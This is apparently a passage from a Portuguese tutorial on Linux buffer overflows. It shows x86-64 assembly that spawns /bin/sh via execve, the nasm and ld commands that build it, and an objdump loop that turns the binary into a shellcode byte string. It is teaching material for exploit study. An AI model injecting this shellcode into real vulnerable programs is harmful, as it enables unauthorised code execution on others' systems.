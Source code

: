 ```
$ cat shell.asm 
global _start

section .text

_start:

    xor    rdx, rdx             ; Zerando o registrador RDX
    mov    qword rbx, '//bin/sh'; Inserindo o comando //bin/sh em RBX
    shr    rbx, 8               ; Shift Right de 8 bits em RBX para limpar a / extra
    push   rbx                  ; empurrando RBX para a Stack
    
    mov    rdi, rsp             ; Voltando o /bin/sh para RDI (argumento 1)
    push   rdx                  ; Enviando o NULL para a pilha
    push   rdi                  ; Enviando /bin/sh para a pilha
    mov    rsi, rsp             ; Movendo ["/bin/sh", 0] para RSI (argumento 2)
    mov    rax, 59              ; Movendo para RAX o valor de execve
    syscall                     ; Chamando a função
```

<p>Pode-se "Assemblar" o script com o `nasm` e criar um objeto.</p>

```
$ nasm -f elf64 shell.asm 
```

<p>E em seguida fazer o *link* do objeto para um executável.</p>

```
$ ld shell.o -o shell
```

<p>O resultado de toda esa operação, é um binário executável que chama o programa `/bin/sh` como pode ser visto na imagem abaixo:</p>

![Exploit executável criado com Assembly](/std/linbof/shell-exec-asm.png)

<p>Assim como no *msfvenom*, também é possível transformar este executável numa linha de bytes para uso em scripts python, através do `objdump`, auxiliado de um `shell script` conforme abaixo:</p>

```
$ for i in $(objdump -d -M intel shell | grep '^ ' | cut -f2); do echo -n '\\x'$i; done
\x48\x31\xd2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x52\x57\x48\x89\xe6\xb8\x3b\x00\x00\x00\x0f\x05  
```
